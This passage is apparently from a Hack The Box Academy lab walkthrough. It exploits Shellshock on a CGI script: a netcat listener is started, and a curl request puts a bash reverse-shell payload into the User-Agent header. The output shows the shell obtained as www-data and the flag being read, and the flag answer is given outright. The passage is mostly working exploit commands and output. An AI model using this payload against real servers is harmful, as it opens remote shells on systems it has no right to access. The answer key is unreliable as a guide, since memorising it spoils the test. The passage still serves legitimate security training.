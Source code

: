 ```shell
sudo nc -lvnp PWNPO
```

```
┌─[us-academy-2]─[10.10.15.12]─[htb-ac-594497@htb-geylz278ib]─[~]
└──╼ [★]$ sudo nc -lvnp 7777

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
```

Then, students need to send a reverse-shell payload:

Code: shell

```shell
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/PWNIP/PWNPO 0>&1' http://STMIP/cgi-bin/access.cgi
```

```
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.15.12/7777 0>&1' http://10.129.205.27/cgi-bin/access.cgi
```

When checking the `nc` listener, students will notice that the reverse shell connection has been established successfully:

```
Ncat: Connection from 10.129.205.27.
Ncat: Connection from 10.129.205.27:57546.
bash: cannot set terminal process group (951): Inappropriate ioctl for device
bash: no job control in this shell
www-data@htb:/usr/lib/cgi-bin$ 
```

Finally, students need to read the flag.txt file with `cat`, finding it to be `Sh3ll_Sh0cK_123`:

Code: shell

```shell
cat flag.txt
```

```
www-data@htb:/usr/lib/cgi-bin$ cat flag.txt

cat flag.txt
Sh3ll_Sh0cK_123
```

Answer: `Sh3ll_Sh0cK_123`

# Attacking Thick Client Applications

## Question 1
